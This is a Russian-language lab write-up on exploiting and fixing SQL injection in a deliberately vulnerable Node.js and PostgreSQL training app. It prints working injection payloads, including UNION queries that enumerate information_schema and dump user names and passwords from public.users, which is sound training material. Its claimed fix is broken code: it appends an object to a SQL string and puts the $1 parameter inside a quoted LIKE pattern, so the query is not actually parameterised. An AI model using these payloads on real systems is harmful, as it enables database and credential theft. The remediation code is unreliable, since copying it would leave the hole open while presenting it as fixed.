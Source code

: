 # Лабораторная работа №2

Цель работы: Поиск и устранение SQL Injection.

## Задание 1

В папке lab2 находится nodejs уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.

Для выполнения лабораторной потребуется проделать следующие шаги:

1. Установить PostgreSQL сервер любой версии.
 
В качестве БД будем использовать docker-образ PostgreSQL. Запуск командой:

```bash
docker run --name postgres-lr -e POSTGRES_PASSWORD=passwddd -e POSTGRES_USER=postgres -e POSTGRES_DB=lib -d -p 5432:5432 postgres
```

2. Создать БД lib.

БД создается при запуске контейнера с помощью переменной окружения POSTGRES_DB=lib. 
 
3. Применить к ней скрипты из папки db (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла. Восстановить данные из файла data.sql.

Для входа в БД используется команда запуска шелла в контейнере, а затем, уже в контейнере, выполняется команда доступа к шеллу БД.

```bash
docker exec -it postgres-lr /bin/bash
psql -U postgres -d lib
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.1.png" />
</p>

<center>![Picture 3.2](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.2.png)</center>

<center>![Picture 3.3](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.3.png)</center>

4. Установить nodejs версии 14.

5. Перейти в папку lab2 и выполнить в ней команду:

```bash
npm install
```

<center>![Picture 5](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/5.png)</center>

6. Запустить сайт через Visual Studio Code или через команду:

```bash
npm start
```

<center>![Picture 6](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/6.png)</center>

7. Войти на сайт и увидеть список книг и авторов.
 
<center>![Picture 7](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/7.png)</center>
    
8. Обнаружить sql инъекцию.

Используем в качестве пейлоада одинарную кавычку и получаем ошибку и весь SQL запрос.

<center>![Picture 8](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/8.png)</center>

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации. В отчете приветси информацию об: обходе установленного фильтра, получении данных из другой таблицы, похищении пароля пользователя.

Получим текущую таблицу в обход SQL-запроса приложения. Используем пейлоад:

```sql
%' or 1 = 1 --
```

<center>![Picture 9.1](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.1.png)</center>

Получим схему БД для определения таблиц с помощью пейлоада:

```sql
%' union select null, table_schema, table_name from information_schema.tables --
```

<center>![Picture 9.2](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.2.png)</center>

Из вывода можно найти информацию от том, что есть таблица public.users. С помощью следующего запроса определим какие столбцы есть в БД и их тип:


```sql
%' union select null, column_name,data_type  from information_schema.columns  where table_name = 'users'; --
```

<center>![Picture 9.3](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.3.png)</center>

Посмотрим записи таблицы public.users с помощью запроса:

```sql
%' union select null, name, pass  from public.users; --
```

<center>![Picture 9.4](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.4.png)</center>
 
10. Исправить уязвимость. В отчёте привести пример того, что уязвимости больше не эксплуатируются.
 
Для исправления уязвимости используем prepared statements в запросе поиска по книге.

```javascript
if(bookname){
        sql+={
            text: `\rwhere b.name like '%$1%'`,
            values: [bookname]
        };
    }
```

<center>![Picture 10](https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/10.png)</center>


P.S.
Помимо изученной SQLi обнаружена еще однин риск: хранение аутентификационных данных в коде программы.
Есть много способов получения аутентифкационных данных, одним из которых является PAM.
